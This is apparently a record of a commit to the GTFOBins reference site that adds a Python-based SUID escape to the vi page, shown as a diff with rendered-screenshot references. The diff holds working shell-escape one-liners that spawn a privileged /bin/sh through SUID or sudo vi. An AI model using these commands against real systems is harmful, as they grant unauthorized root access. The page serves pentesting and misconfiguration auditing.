

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/vi.md, in a window 1280 px wide and 900 px high, scrolled down 756 px. Shown: the top 872 px of the window, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1518 px from its top, so only the background shows below that.

Commit message:
Fix and add SUID to other vi
Related to #39.

```diff
--- a/_gtfobins/vi.md
+++ b/_gtfobins/vi.md
@@ -18,6 +18,8 @@ functions:
     - code: vi file_to_read
   suid:
     - code: ./vi -c ':!/bin/sh -p'
+    - description: This requires that `vi` is compiled with Python support.
+      code: ./vi -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
   sudo:
     - code: sudo vi -c ':!/bin/sh'
     - description: This requires that `vi` is compiled with Python support.
```
Also changed, not shown: _gtfobins/rvim.md (+1 -1 lines), _gtfobins/vim.md (+2 -0 lines).
